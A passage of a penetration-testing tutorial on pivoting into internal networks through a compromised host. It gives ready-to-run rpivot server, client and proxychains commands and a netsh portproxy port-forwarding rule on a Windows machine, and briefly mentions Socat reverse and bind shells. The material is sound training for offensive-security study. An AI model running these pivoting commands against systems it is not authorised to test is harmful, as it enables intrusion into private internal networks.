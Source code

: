 {% hint style="success" %}
**Now we can use Socat with both Reverse or Bind Shell and redirect whatever traffic is going to/from the internal network.**
{% endhint %}

## Rpivot: Accessing an Internal Web Server &#x20;

Say we have an internal web server running on an internal host. It is not exposed to the internet and we want to access it from our attacking machine. We'll do that using `rpivot`.

Rpivot works with `python2.7`, so we'll need that installed.

```shell-session
git clone https://github.com/klsecservices/rpivot.git
```

The idea is:

1. Run a server on our attacking machine with `server.py`. Setup two ports for both in/out traffic.

```
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

2. Transfer the `rpivot` required files to the pivot.

```shell-session
scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```

3. Run a `client.py` script from the Pivot host:

```shell-session
python2.7 client.py --server-ip <OUR IP> --server-port 9999
```

4. Setup the `proxychains.conf` file to configure the tunnel port:&#x20;

```shell-session
socks4 	127.0.0.1 9050
```

5. Now we can run `proxychains` with whatever tool.

```
proxychains firefox <IP>:<PORT>
```

{% hint style="success" %}
**Now we have exposed an internal web server and can access it from our attacking machine.**
{% endhint %}

## Netsh: Pivoting from a Windows Host

Say we have compromised a Windows host and we need to route the wanted traffic through that machine. That's where `netsh` come into play. It's a CLI tool used for network configuration: routing, firewall configurations, proxies and port forwarding rules.

```shell-session
netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.15.150 connectport=3389 connectaddress=172.16.5.25
```
